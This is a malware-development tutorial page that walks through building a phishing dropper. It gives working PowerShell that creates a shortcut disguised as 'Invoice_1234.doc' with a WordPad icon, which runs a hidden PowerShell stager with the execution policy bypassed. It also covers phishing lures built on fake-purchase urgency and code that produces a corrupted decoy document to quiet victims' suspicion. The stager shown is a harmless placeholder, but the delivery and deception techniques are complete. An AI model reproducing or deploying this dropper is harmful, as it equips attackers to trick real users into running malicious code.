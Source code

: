 ```yaml
---
title: "Step 1: Stager and LNK"
---
```


<h1>Step 1: Stager and LNK</h1>

## Preparing our Environment

On your Windows VM, open the file explorer and create a new directory called `PoC Dropper` (or whatever you like). Inside, create a subdirectory called `iso`, containing another subdirectory called `stager`. At the end of this section, once we've completed construction of the stager and LNK file, you should have a directory tree similar to the following:

```sh
PoC Dropper/
├── iso/
│   ├── Invoice_1234.doc.lnk
│   └── stager/
│       └── stager.ps1
└── make_lnk.ps1
```

The `iso` folder will be used for construction of the ISO file in Step 2.

## PoC Stager

The whole purpose of our dropper is to execute a stager on the victim's system. Therefore, we'll need a stager. In [the Stager section](/0x10%20Design/13%20Stagers/00%20Intro/) we'll cover stager design, but for now a simple PoC will suffice. Since we're targeting Windows, we'll use PowerShell for our stager code. Create a file called `stager.ps1` inside the `stager` subdirectory. Paste the following line into the `stager.ps1` file:

```sh
"Infected!" | Out-File -FilePath $HOME\Desktop\INFECTED.TXT
```

When executed, this stager will write the string `Infected!` into a file called `INFECTED.TXT` on the victim's desktop. Easy enough!

## LNK Dropper

Continuing with the theme of simplicity, we'll craft our LNK file with only a rudimentary disguise. The purpose of this file is to launch the stager script, while appearing to be a legitimate document. For this disguise, we will simply tell the LNK file to use the icon from the `WordPad.exe` binary.

Why WordPad, instead of Microsoft Word? Simple: WordPad is bundled with Windows, whereas Word is sold separately. LNK files borrow icons from other files. For an LNK to use a custom icon, that icon must exist on the victim's system. If we use the icon from MS Word, but the victim doesn't have Word on their PC, then the LNK file icon will be broken. Using WordPad, however, this problem is averted, as every Windows system includes WordPad by default.

In the `PoC Dropper` directory, create a script called `make_lnk.ps1`, with the following contents:

```sh
# Configure the launcher.
$exe = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe";
$args = "-NonInteractive -NoProfile -ExecutionPolicy Bypass -WindowStyle Hidden -File .\stager\stager.ps1";
$icon = "C:\Program Files\Windows NT\Accessories\wordpad.exe";
# Create the malicious LNK file.
$wss = New-Object -ComObject WScript.Shell;
$lnk = $wss.CreateShortcut(".\iso\Invoice_1234.doc.lnk");
$lnk.WindowStyle = "7"; # 1 = Default; 3 = Maximized; 7 = Minimized
$lnk.TargetPath = $exe;
$lnk.Arguments = $args;
$lnk.IconLocation = "$icon,0"; # Use the first icon from the target binary.
$lnk.save();
```

This script performs the following steps:

1. Create a new `WScript.Shell` object.
2. Use the resulting object to create a new LNK file at `.\iso\Invoice_1234.doc.lnk`.
3. Set the `WindowStyle` attribute to `7`.
    * The [available options](https://www.devguru.com/content/technologies/wsh/wshshortcut-windowstyle.html) are `1`, `3`, and `7`.
    * Style `7` tells Windows to launch the shortcut in a minimized window.
4. Set the `TargetPath` and `Arguments` attributes to launch our stager.
5. Set the `IconLocation` to the first icon from `wordpad.exe`.
6. Save the `.lnk` file to the previously-specified location.

### Executing the LNK Builder

Once the script has been written, run it with PowerShell:

```sh
C:\Users\MalDev\Desktop\PoC Dropper>powershell.exe -file .\make_lnk.ps1
```

When this completes, looking in the `iso` directory, you should see the following:

![Screenshot from inside the `iso` directory, showing the `stager` subdirectory and the `Invoice_1234.doc.lnk` file.](./img/lnk.jpg)

The `stager` directory contains a single file: `stager.ps1`. As we can see from the screenshot, the `Invoice_1234.doc.lnk` file uses the WordPad icon. This icon, coupled with the fact that Windows hides file extensions by default, makes it appear as if the `.lnk` file is actually a `.doc` file.

Phishing emails will often use the "unauthorized purchase" ploy, claiming that the victim will be charged for some expensive purchase unless they respond quickly to cancel the transaction. This sense of pending financial loss causes unwary readers to panic, and to find a way to stop the charge. This urgency encourages them to open malicious attachments, especially when they have names like `Receipt_Order-F33216` or `Invoice_281845`. Victims are likely to open these files, hoping to learn more about the unexpected purchase.

## Testing the Dropper

Since our stager payload is a benign PoC, we can safely launch the LNK file to ensure it behaves as expected. When executed, you may see a new item appear on the task bar for a moment before vanishing:

![Screenshot showing the minimized window, named `Invoice_1234.doc`.](./img/minimized.jpg)

After execution, if the dropper and stager worked properly, you should find a file called `INFECTED.TXT` on the desktop.

# Improving the Design

We've disguised the dropper as an invoice document with clever naming and using the `.doc.lnk` double-extension. However, there's one simple problem: When a user opens a `.doc` file, they expect Microsoft Word (or WordPad) to open a document. If a user opens our `Invoice_1234.doc.lnk` file and nothing happens, they may try launching it again, and may become suspicious when they see that nothing opens.

To account for this, we could create a legitimate-looking Microsoft Word file called `Invoice_1234.doc`, and store it in the `stager` directory. This file could be launched as part of the `.lnk` arguments, or could be launched by the `stager.ps1` script. That way, while the stager code is running in the background, the user will be greeted by an official-looking document, as they expected.

This, of course, requires that you create a legitimate-looking invoice file. On the other hand, you could simply create a fake invoice file, fill it with some garbled data, and save it as `Invoice_1234.doc`, then corrupt the document by splitting it in half. Here's some PowerShell code that will perform this task:

```sh
$relativepath = "stager\Invoice_1234.doc";
$fullpath = ($relativepath | Resolve-Path);
$size = ((Get-Item $fullpath).length);
$newsize = ($size - ($size % 2)) / 2; # Half size, in full bytes.
$infile = [io.file]::OpenRead($fullpath);
$buffer = New-Object byte[] $newsize;
$infile.Read($buffer, 0, $newsize);
$infile.close();
Remove-Item -path $fullpath;
$outfile = [io.file]::OpenWrite($fullpath);
$outfile.Write($buffer, 0, $newsize);
$outfile.close();
```

This opens the `stager\Invoice_1234.doc` file, reads its contents, deletes the file, then writes a new file (with the same name) containing the first half of the original file. The result is a corrupted `.doc` file that will, when opened in Microsoft Word, generate an error stating that the file could not be read.

When launching the dropper with the broken `.doc` file, the victim is more likely to believe the file was corrupted, rather than malicious. (A corrupted `.doc` is more believable than no `.doc` at all.)

We will leave it as an exercise for the reader to add this corrupted `.doc` to the LNK dropper.